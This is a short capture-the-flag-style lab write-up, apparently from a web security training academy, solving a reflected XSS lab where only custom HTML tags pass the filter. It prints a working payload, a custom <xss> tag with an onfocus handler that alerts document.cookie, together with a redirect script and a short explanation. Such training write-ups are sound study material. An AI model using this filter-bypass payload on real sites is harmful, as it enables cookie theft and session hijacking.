 Title: Reflected XSS into HTML context with all tags blocked except custom ones
Level: PRACTITIONER
Desc:  This lab blocks all HTML tags except custom ones.
To solve the lab, perform a cross-site scripting attack that injects a custom tag and automatically alerts document.cookie. 

# Walkthrough:
<img width="1099" height="186" alt="image" src="https://github.com/user-attachments/assets/457d6eb2-31b8-4c2f-869b-003fa66e6a23" />


```
<script>
location = 'https://YOUR-LAB-ID.web-security-academy.net/?search=%3Cxss+id%3Dx+onfocus%3Dalert%28document.cookie%29%20tabindex=1%3E#x';
</script>
```

<xss id=x onfocus=alert(document.cookie) tabindex=1>#x

`<xss id=x onfocus=alert(document.cookie) tabindex=1>` - this part create custom element
`#x` - make focus on the element
